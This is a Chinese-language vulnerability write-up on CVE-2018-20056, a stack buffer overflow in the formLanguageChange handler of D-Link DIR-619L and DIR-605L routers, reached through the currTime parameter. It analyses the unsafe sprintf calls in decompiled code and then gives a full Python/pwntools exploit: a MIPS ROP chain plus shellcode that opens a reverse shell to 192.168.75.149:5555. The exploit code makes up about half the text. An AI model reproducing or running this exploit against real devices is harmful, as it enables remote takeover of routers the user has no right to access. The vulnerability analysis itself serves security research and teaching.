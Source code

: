 # （CVE-2018-20056）D-Link DIR-619L&605L 栈溢出漏洞

> 原文：[http://book.iwonder.run/iot/D-Link/CVE-2018-20056.html](http://book.iwonder.run/iot/D-Link/CVE-2018-20056.html)

## 一、漏洞简介

D-LINK 的 DIR-619L Rev.B 2.06B1 版本之前和 DIR-605L Rev.B 2.12B1 版本之前的设备，在/bin/boa 文件的 formLanguage 函数中存在缓冲区溢出漏洞，在调用 sprintf 函数时没有对参数的长度进行检查，导致远程攻击者可以通过访问

```
http://[ip]/goform/formLanguageChange 并指定 currTime 参数实现远程代码执行。 
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

## 二、漏洞影响

D-LINK 的 DIR-619L Rev.B 2.06B1 版本之前和 DIR-605L Rev.B 2.12B1 版本之前的设备。

## 三、复现过程

### 漏洞分析

在 formLanguageChange 函数中，通过 websGetVar 获取 config.i18n_language，nextPage，currTime 等参数。websGetVar 通过 malloc、memcpy 将获取到的参数返回给 formLanguageChange。formLanguageChange 接下来调用了 sprintf 危险函数向 local_f8 变量中读入参数内容，并在下一步 websRedirect 使用了 local_f8 作为参数。

```
void formLanguageChange(undefined4 uParm1)
{
  int iVar1;
  char *pcVar2;
  undefined4 uVar3;
  FILE *__stream;
  char *__s1;
  char local_f8 [200];
  char acStack48 [24];
  undefined4 local_18;
  int local_14;

  __s1 = (char *)websGetVar(uParm1,"config.i18n_language",&DAT_004ac874);
  ……
  apmib_set(0x129,&local_18);
  __s1 = (char *)websGetVar(uParm1,"nextPage",&DAT_004ac874);
  if (*__s1 == 0) {
    uVar3 = websGetVar(uParm1,"currTime",&DAT_004ac874);//获取 currTime 参数
    __s1 = "/index.asp";
  }
  else {
    ……
  }
  sprintf(local_f8,"%s?t=%s",__s1,uVar3);//危险函数 sprintf 直接读入字符
LAB_00460b34:
  websRedirect(uParm1,local_f8);
  ……
  return;
} 
```

websRedirect 主要调用`send_r_moved_perm`，这个函数调用了两次危险函数 sprintf，分别向 acStack224(sp+0x19f8-0xe0)和 acStack480(sp+0x19f8-0x1e0)中输入字符。

```
undefined4 websRedirect(int iParm1,char *pcParm2)
{
  char *pcVar1;

  *(undefined4 *)(iParm1 + 0x50) = 0;
  pcVar1 = strstr(pcParm2,"/apply_setting.asp");
  if (pcVar1 != (char *)0x0) {
    apply_setting_redirect = apply_setting_redirect + 1;
  }
  send_r_moved_perm(iParm1,pcParm2);
  return 0;
}

void send_r_moved_perm(int iParm1,char *pcParm2)

{
  undefined4 uVar1;
  char *pcVar2;
  undefined auStack6624 [6144];
  char acStack480 [256];
  char acStack224 [200];

  ……
  if (pcVar2 == (char *)0x0) {
    if (*pcParm2 == '/') {
      pcParm2 = pcParm2 + 1;
    }
    sprintf(acStack224,"http://%s/%s",*(undefined4 *)(iParm1 + 0x70),pcParm2);
    pcParm2 = acStack224;
  }
  sprintf(acStack480,

          "<html><head></head><body>\r\n\t\tThis document has moved to a new <ahref=\"%s\">location</a>.\r\n\t\tPlease update your documents to reflect the newlocation.\r\n\t\t</body></html>\r\n"
          ,pcParm2);
  ……s
  return;
} 
```

通过第二两个 sprintf 修改返回地址，构造 ROP 链，导致程序控制流被劫持。（也可以通过两个 sprintf 的配合来实现栈的迁移，漏洞作者是这么实现的）

### 漏洞复现

#### poc

```
import requests
import sys
import struct
from pwn import *
#context.log_level='debug'
context.arch='mips'
context.endian='big'
ip='192.168.75.150'

def syscmd1(a):
    p=remote(ip,80)
    z=len(a)
    print "[+]len:"+str(z)
    payload=''
    payload+='POST /goform/formLanguageChange HTTP/1.1\r\n'
    payload+='Host: '+ip+'\r\n'
    payload+='Connection: keep-alive\r\n'
    payload+='Accept-Encoding: gzip, deflate\r\n'
    payload+='Accept: */*\r\n'
    payload+='User-Agent: python-requests/2.18.4\r\n'
    payload+='Content-Length: '+str(z+9)+'\r\n'
    payload+='Content-Type: application/x-www-form-urlencoded\r\n'
    payload+='\r\n'
    payload+='currTime='
    payload+=a+'\r\n'
    p.send(payload)
    p.recvuntil('</html>')
    #raw_input()
    p.close()

#base address of libc.so.0
base1=0x2ab88000
###shellcode
sc=struct.pack(">I",0x24060101)
sc+=struct.pack(">I",0x04d0ffff)
sc+=struct.pack(">I",0x2806ffff)
sc+=struct.pack(">I",0x27bdffe0)
sc+=struct.pack(">I",0x27e41001)
sc+=struct.pack(">I",0x2484f023)
sc+=struct.pack(">I",0xafa4ffe8)
sc+=struct.pack(">I",0xafa0ffec)
sc+=struct.pack(">I",0x27a5ffe8)
sc+=struct.pack(">I",0x24020fab)
sc+=struct.pack(">I",0xafa00108)
sc+=struct.pack(">I",0x0101010c)
sc+="/bin//sh\x00"

shellcode =''
shellcode += asm(shellcraft.connect('192.168.75.149',5555))
shellcode += asm(shellcraft.dup2(5,0))
shellcode += asm(shellcraft.dup2(5,1))
shellcode += sc

s0=struct.pack(">I",base1+0x2C794)
s1=struct.pack(">I",base1+0x2C794)### rop2:move $t9,$s2;...;jr $t9 
s2=struct.pack(">I",base1+0x24b70)### rop3:sleep(1)
s3=struct.pack(">I",base1+0x2bdac)### rop5:addiu $a0,$sp,0x18;...;lw $ra,0x30;jr $ra
s4=struct.pack(">I",base1+0x2bdac)
###rop
payload1='a'*0x167+s0+s1+s2+s3
payload1+=struct.pack(">I",base1+0x25714)  ###rop1: li $a0,1;move $t9,$s1;jalr $t9;ori $a1,$s0,2
payload1+='b'*0x1c+s0+s1+s2+s3+s4
payload1+=struct.pack(">I",base1+0x5f98)  ###rop4:lw $ra,0x1c($sp);...;jr $ra
payload1+='c'*0x1c
payload1+=s3
payload1+='d'*0x18
payload1+=struct.pack(">I",0x24910101) ###rop7 addiu $s1,$a0,257;addi $s1,$s1,-257;move $t9,$s1;jalr $t9
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x0220c821)
payload1+=struct.pack(">I",0x0320f809)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",base1+0x2bda0) ###rop6:mov $t9,$a0;...;jalr $t9
payload1+='e'*0x20+shellcode
if __name__ == "__main__":
    syscmd1(payload1) 
```

利用效果:

![image](img/ebe11f87979c53044d9ac26ca54fa4d6.png)

![image](img/8d72ae0db13952690ed417a72f5c1315.png)

